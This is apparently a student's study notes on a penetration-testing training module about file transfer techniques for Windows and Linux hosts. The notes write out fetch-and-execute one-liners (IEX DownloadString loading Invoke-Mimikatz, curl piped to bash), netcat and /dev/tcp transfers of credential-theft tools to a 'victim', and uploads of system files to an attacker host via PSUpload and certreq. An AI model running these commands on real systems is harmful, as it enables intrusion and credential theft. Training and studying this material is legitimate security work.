

# File Transfers

This module starts with a real scenario where file transfers comes in handy : 

- You got RCE on an IIS server via an upload and opened a reverse shell.
- PowerShell was blocked by AppLocker/WDAC, so scripts couldn’t be used.
- You found `SeImpersonatePrivilege` — lets a process impersonate higher-privilege accounts.( same as setuid binaries in linux systems???????)
- Web downloads (GitHub, Dropbox) and FTP were blocked, but outbound SMB (TCP 445) was allowed.
- You used an SMB file transfer to put a compiled binary (PrintSpoofer) on the machine, ran it, and escalated to admin.

# Windows File Transfer Methods

## Introduction

- Fileless attacks: This kind of attack is where attackers use legitimate built in tools in windows to execute an attack;  a malware is loaded into memory using these built in tools, and it wouldn’t be present in disk, there is a file transfer though. This kind of attack gave birth to a lot more like astaroth attacks; The `Astaroth attack` generally followed these steps: A malicious link in a spear-phishing email led to an LNK file. When double-clicked, the LNK file caused the execution of the [WMIC tool](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmic) with the "/Format" parameter, which allowed the download and execution of malicious JavaScript code. The JavaScript code, in turn, downloads payloads by abusing the [Bitsadmin tool](https://docs.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool). All the payloads were base64-encoded and decoded using the Certutil tool resulting in a few DLL files. The [regsvr32](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32) tool was then used to load one of the decoded DLLs, which decrypted and loaded other files until the final payload, Astaroth, was injected into the `Userinit` process. Below is a graphical depiction of the attack.
    
    
    

## Download Operations

### Powershell base64 encode & decode

Very self explanatory we will base64 encode our contents in local machine and then decode them and write them to a file in the target machine using powershell and then check the checksums of the file on both the machines to make sure that the file is the same :

```bash
CSmarwen@htb[/htb]$ md5sum id_rsa4e301756a07ded0a2dd6953abf015278  id_rsa

```

```bash
CSmarwen@htb[/htb]$ cat id_rsa |base64 -w 0;echoLS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo=

```

We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.

Windows File Transfer Methods

```powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFBQUFBQkc1dmJtVUFBQUFFYm05dVpRQUFBQUFBQUFBQkFBQUFsd0FBQUFkemMyZ3RjbgpOaEFBQUFBd0VBQVFBQUFJRUF6WjE0dzV1NU9laHR5SUJQSkg3Tm9Yai84YXNHRUcxcHpJbmtiN2hIMldRVGpMQWRYZE9kCno3YjJtd0tiSW56VmtTM1BUR3ZseGhDVkRRUmpBYzloQ3k1Q0duWnlLM3U2TjQ3RFhURFY0YUtkcXl0UTFUQXZZUHQwWm8KVWh2bEo5YUgxclgzVHUxM2FRWUNQTVdMc2JOV2tLWFJzSk11dTJONkJoRHVmQThhc0FBQUlRRGJXa3p3MjFwTThBQUFBSApjM05vTFhKellRQUFBSUVBeloxNHc1dTVPZWh0eUlCUEpIN05vWGovOGFzR0VHMXB6SW5rYjdoSDJXUVRqTEFkWGRPZHo3CmIybXdLYkluelZrUzNQVEd2bHhoQ1ZEUVJqQWM5aEN5NUNHblp5SzN1Nk40N0RYVERWNGFLZHF5dFExVEF2WVB0MFpvVWgKdmxKOWFIMXJYM1R1MTNhUVlDUE1XTHNiTldrS1hSc0pNdXUyTjZCaER1ZkE4YXNBQUFBREFRQUJBQUFBZ0NjQ28zRHBVSwpFdCtmWTZjY21JelZhL2NEL1hwTlRsRFZlaktkWVFib0ZPUFc5SjBxaUVoOEpyQWlxeXVlQTNNd1hTWFN3d3BHMkpvOTNPCllVSnNxQXB4NlBxbFF6K3hKNjZEdzl5RWF1RTA5OXpodEtpK0pvMkttVzJzVENkbm92Y3BiK3Q3S2lPcHlwYndFZ0dJWVkKZW9VT2hENVJyY2s5Q3J2TlFBem9BeEFBQUFRUUNGKzBtTXJraklXL09lc3lJRC9JQzJNRGNuNTI0S2NORUZ0NUk5b0ZJMApDcmdYNmNoSlNiVWJsVXFqVEx4NmIyblNmSlVWS3pUMXRCVk1tWEZ4Vit0K0FBQUFRUURzbGZwMnJzVTdtaVMyQnhXWjBNCjY2OEhxblp1SWc3WjVLUnFrK1hqWkdqbHVJMkxjalRKZEd4Z0VBanhuZEJqa0F0MExlOFphbUt5blV2aGU3ekkzL0FBQUEKUVFEZWZPSVFNZnQ0R1NtaERreWJtbG1IQXRkMUdYVitOQTRGNXQ0UExZYzZOYWRIc0JTWDJWN0liaFA1cS9yVm5tVHJRZApaUkVJTW84NzRMUkJrY0FqUlZBQUFBRkhCc1lXbHVkR1Y0ZEVCamVXSmxjbk53WVdObEFRSURCQVVHCi0tLS0tRU5EIE9QRU5TU0ggUFJJVkFURSBLRVktLS0tLQo="))

```

Finally, we can confirm if the file was transferred successfully using the [Get-FileHash](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-7.2) cmdlet, which does the same thing that `md5sum` does.

### **Confirming the MD5 Hashes Match**

Windows File Transfer Methods

```powershell
PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             4E301756A07DED0A2DD6953ABF015278                                       C:\Users\Public\id_rsa
```

### Powershell  Web Downloads

Most companies allow `HTTP` and `HTTPS` outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

| **Method** | **Description** |
| --- | --- |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0) | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0) | Returns the data from a resource without blocking the calling thread. |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0) | Downloads data from a resource and returns a Byte array. |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0) | Downloads data from a resource and returns a Byte array without blocking the calling thread. |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0) | Downloads data from a resource to a local file. |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0) | Downloads data from a resource to a local file without blocking the calling thread. |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0) | Downloads a String from a resource and returns a String. |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread. |

Let's explore some examples of those methods for downloading files using PowerShell.

- Powershell DownloadFile method

```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

- Powershell DownloadString - Fileless method
    
    ```powershell
    PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
    
    ```
    

IEX or Invoke-Expression

### SMB Downloads

The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to and from remote servers.

We first need to create an smb server in our local machine from Impacket [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py). 

```bash
CSmarwen@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password testImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.

```

**Note:** You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

### FTP Downloads

Same exact thing here are the commands that we need 

```bash
CSmarwen@htb[/htb]$ sudo pip3 install pyftpdlib
```

```bash
CSmarwen@htb[/htb]$ sudo python3 -m pyftpdlib --port 21[I 2022-05-17 10:09:19] concurrency model: async
[I 2022-05-17 10:09:19] masquerade (NAT) address: None
[I 2022-05-17 10:09:19] passive ports: None
[I 2022-05-17 10:09:19] >>> starting FTP server on 0.0.0.0:21, pid=3210 <<<
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on our target windows machine sometimes it isn’t interactive and we need to create a file that has all the commands on our local ftp server and we run it like this : ftp -v -n -s:ftpdoc.txt, the terminal then will run the commands in the file line by line 

# Upload Operations

The first way is the same way in the download operation section , just this time we will base64-encode the file in powershell and decode it in linux and check the md5sum after.

## Powershell Web Uploads

In this section we will create an upload server in our linux machine using uploadserver , which is an extended module of Python http.server module.

```bash
CSmarwen@htb[/htb]$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts

[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts
[+] FileHash:  5E7241D66FD77E9E8EA866B6278B2373
```

## SMB Uploads

“”””Very Interesting””””

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.
When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. In the following Wireshark capture, we attempt to connect to the file share `testing3`, and because it didn't find anything with `SMB`, it uses `HTTP`.

### **Configuring WebDav Server**

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)). After installing them, we run the `wsgidav` application in the target directory.

### **Installing WebDav Python modules**

Windows File Transfer Methods

```bash
CSmarwen@htb[/htb]$ sudo pip3 install wsgidav cheroot[sudo] password for plaintext:
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     |████████████████████████████████| 171 kB 1.4 MB/s
     ...SNIP...

```

### **Using the WebDav Python module**

Windows File Transfer Methods

```bash
CSmarwen@htb[/htb]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous [sudo] password for plaintext:
Running without configuration file.
10:02:53.949 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
10:02:53.950 - INFO    : WsgiDAV/4.0.1 Python/3.9.2 Linux-5.15.0-15parrot1-amd64-x86_64-with-glibc2.31
10:02:53.950 - INFO    : Lock manager:      LockManager(LockStorageDict)
10:02:53.950 - INFO    : Property manager:  None
10:02:53.950 - INFO    : Domain controller: SimpleDomainController()
10:02:53.950 - INFO    : Registered DAV providers by route:
10:02:53.950 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/local/lib/python3.9/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
10:02:53.950 - INFO    :   - '/': FilesystemProvider for path '/tmp' (Read-Write) (anonymous)
10:02:53.950 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
10:02:53.950 - WARNING : Share '/' will allow anonymous write access.
10:02:53.950 - WARNING : Share '/:dir_browser' will allow anonymous read access.
10:02:54.194 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.6.0 Python 3.9.2
10:02:54.194 - INFO    : Serving on http://0.0.0.0:80 ...

```

### **Connecting to the Webdav Share**

Now we can attempt to connect to the share using the `DavWWWRoot` directory.

Windows File Transfer Methods

```bash
C:\htb> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

# Linux File Transfer Methods

## Download Operation

### Base64 Encoding/ Decoding

As always the first type of transfer is simple base64 encoding of files in the target machine and decoding in the target machine, all while checking the checksums in both machines to check the integrity of the files.

### Web Downloads

For this we know two commands that cURL and wget 

`CSmarwen@htb[/htb]**$** wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
`CSmarwen@htb[/htb]**$** curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

### Fileless attacks in Linux

Fileless Download with cURL
`CSmarwen@htb[/htb]**$** curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

Fileless Download with wget : In this example we get a python script that we will execute 

```bash
CSmarwen@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
Hello World!
```

### Downloads with Bash : /dev/tcp

This works with bash versions after 2.04

```bash
CSmarwen@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80

```

```bash
CSmarwen@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

```bash
CSmarwen@htb[/htb]$ cat <&3
```

### SSH Downloads

This comes down to enabling ssh in our local machine and then connecting from the target machine to get the file using **“scp”** just like the example below :

```bash
CSmarwen@htb[/htb]$ sudo systemctl enable sshSynchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable ssh
Use of uninitialized value $service in hash element at /usr/sbin/update-rc.d line 26, <DATA> line 45
...SNIP...

```

```bash
CSmarwen@htb[/htb]$ sudo systemctl start ssh
```

```bash
CSmarwen@htb[/htb]$ netstat -lnpt(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -

```

Now we can begin transferring files. We need to specify the IP address of our Pwnbox and the username and password.

```bash
Target@htb[/htb]$ scp plaintext@192.168.49.128:/root/myroot.txt .
```

Note: I won’t include the part that talks about how to download/upload files using coding, i think the code can be researched when needed or even generated.

# Miscellaneous (Alternative) File Transfer Methods

## Netcat in File Transfers

Use a TCP connection to stream file bytes. One side **listens** and writes to a file; the other **connects** and sends the file as stdin.

### 1) Listener on the compromised machine (receive)

**nc (traditional netcat)**

```bash
# listen on port 8000 and save incoming bytes to SharpKatz.exe
nc -l -p 8000 > SharpKatz.exe

```

**ncat (nmap's netcat)**

```bash
# listen and close once transfer finishes
ncat -l -p 8000 --recv-only > SharpKatz.exe

```

### 2) Sender on the attack host (send)

**nc**

```bash
# send file, close after EOF
nc -q 0 192.168.49.128 8000 < SharpKatz.exe

```

**ncat**

```bash
# send-only option causes ncat to exit when stdin is exhausted
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe

```

## Reverse direction (listen on attacker, victim connects)

Useful when inbound connections to the victim are blocked.

**Attack host (listen, send file as stdin)**

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe    # nc
sudo ncat -l -p 443 --send-only < SharpKatz.exe  # ncat

```

**Compromised machine (connect and write to file)**

```bash
nc 192.168.49.128 443 > SharpKatz.exe    # nc
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe  # ncat

```

---

## If Netcat/Ncat aren't available: /dev/tcp (Bash)

Bash can open a TCP socket via `/dev/tcp/host/port`:

```bash
# victim connects and writes received bytes to file
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

```

# In the next part we will talk about the alternatives in Windows

## PowerShell Remoting (WinRM) — reliable Windows copy

If you have credentials and WinRM is reachable, create a session and use `Copy-Item`:

```powershell
# verify port 5985 is reachable
Test-NetConnection -ComputerName DATABASE01 -Port 5985

# create session
$Session = New-PSSession -ComputerName DATABASE01

# copy from local to remote
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\

# copy from remote to local
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -FromSession $Session -Destination C:\

```

## RDP drive/clipboard redirection

- When connecting via RDP (mstsc, xfreerdp, rdesktop) enable **drive sharing** or clipboard.
- Linux example (xfreerdp) — expose local folder as `\\tsclient\share`:

```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/user/files

```

Then copy files in the remote session via `\\tsclient\linux`.

# Protected File Transfers

Even penetration tester have some kind of precautions to take when simulating an attack on an organization’s network, because there could be some type of data leakage caused by third parties, that’s why it’s important to encrypt sensitive data is necessary before getting any kind of penetration testing going.

## File Encryption on Windows

One of the simplest methods on Powershell is Invoke-AESEncryption.ps1, this provides an encryption/decryption using base64 combined with a key

```powershell
.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text"

Description
-----------
Encrypts the string "Secret Test" and outputs a Base64 encoded ciphertext.

.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Text "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs="

Description
-----------
Decrypts the Base64 encoded string "LtxcRelxrDLrDB9rBD6JrfX/czKjZ2CUJkrg++kAMfs=" and outputs plain text.

.EXAMPLE
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Path file.bin

Description
-----------
Encrypts the file "file.bin" and outputs an encrypted file "file.bin.aes"

.EXAMPLE
Invoke-AESEncryption -Mode Decrypt -Key "p@ssw0rd" -Path file.bin.aes

Description
-----------
Decrypts the file "file.bin.aes" and outputs an encrypted file "file.bin"
```

### **File Encryption Example**

```powershell
PS C:\htb> Invoke-AESEncryption -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt

File encrypted to C:\htb\scan-results.txt.aes
PS C:\htb> ls

    Directory: C:\htb

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/18/2020  12:17 AM           9734 Invoke-AESEncryption.ps1
-a----        11/18/2020  12:19 PM           1724 scan-results.txt
-a----        11/18/2020  12:20 PM           3448 scan-results.txt.aes

```

Using very `strong` and `unique` passwords for encryption for every company where a penetration test is performed is essential. This is to prevent sensitive files and information from being decrypted using one single password that may have been leaked and cracked by a third party.

## File Encryption on Linux

Openssl is often used by sysadmins to generate security certificates among other tasks. 
To encrypt files using openssl we can chose different ciphers here is an example:

### **Encrypting /etc/passwd with openssl**

```bash
CSmarwen@htb[/htb]$ openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
```

### **Decrypt passwd.enc with openssl**

```bash
CSmarwen@htb[/htb]$ openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd                    enter aes-256-cbc decryption password:
```

# Catching Files Over HTTP/S

Web transfer is the most common way most people transfer files because `HTTP`/`HTTPS` are the most common protocols allowed through firewalls. Another immense benefit is that, in many cases, the file will be encrypted in transit. There is nothing worse than being on a penetration test, and a client's network IDS picks up on a sensitive file being transferred over plaintext and having them ask why we sent a password to our cloud server without using encryption.

## Nginx

We’re gonna enable uploading to nginx servers( enabling PUT method ), and make sure the users can’t submit webshells and execute them.

### **Create a Directory to Handle Uploaded Files**

Catching Files over HTTP/S

```bash
CSmarwen@htb[/htb]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

### **Change the Owner to www-data**

Catching Files over HTTP/S

```bash
CSmarwen@htb[/htb]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

### **Create Nginx Configuration File**

Create the Nginx configuration file by creating the file `/etc/nginx/sites-available/upload.conf` with the contents:

Catching Files over HTTP/S

```bash
server {
    listen 9001;

    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

### **Symlink our Site to the sites-enabled Directory**

```bash
CSmarwen@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

### **Start Nginx**

```bash
CSmarwen@htb[/htb]$ sudo systemctl restart nginx.service
```

If we get any error messages, check `/var/log/nginx/error.log`. If using Pwnbox, we will see port 80 is already in use.

# LOLBAS ( Living Off the Land Binaries, Scripts and Libraries)

LOLBins is what we call binaries that attackers use to perform actions beyond their original purpose. LOLBAS is the windows kind of binaries that reside here [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/), there is an actual website that have all these binaries.

### **LOLBAS**

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.


Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

### **Upload win.ini to our Pwnbox**

```bash
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)

```

This will send the file to our Netcat session, and we can copy-paste its contents.

### **File Received in our Netcat Session**

```bash
CSmarwen@htb[/htb]$ sudo nc -lvnp 8000listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

# GTFOBins ( Get The Fuck Out Binaries)

GTFOBins is the LOLBAS version of linux.

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.


We’re gonna use Openssl to send files.

After creating a server using a certificate that was generated using openssl, this is the command that we need : 
`CSmarwen@htb[/htb]**$** openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`

this command sets up a port to receive the file passed as a parameter 

`CSmarwen@htb[/htb]**$** openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`

 And this command sends the file over to the other machine.

[here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe)